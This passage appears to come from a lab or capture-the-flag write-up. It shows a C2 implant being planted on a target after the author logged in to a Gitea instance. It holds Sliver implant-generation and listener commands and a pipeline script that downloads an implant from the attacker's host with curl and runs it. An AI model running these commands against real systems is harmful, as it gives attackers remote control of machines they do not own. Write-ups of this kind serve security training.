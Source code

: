 ![backup-dcrypt](jdecrypt.png)


I can currently log in to Gitea

## Shell access

Next, I decided to upload the sliver implant to the machine through the pipeline

### Sliver

```
sliver > generate --mtls 10.8.4.230:8888 --os Linux --arch 64
```

```
sliver > mtls --lport 8888
```

### Implant Upload

`sh.sh`

```sh
#!/bin/env bash

curl http://10.8.4.230/LAZY_POLO -o /tmp/LAZY_POLO && \
    chmod +x /tmp/LAZY_POLO && \
    /tmp/LAZY_POLO
```

`http server`

```sh
python3 -m http.server
```
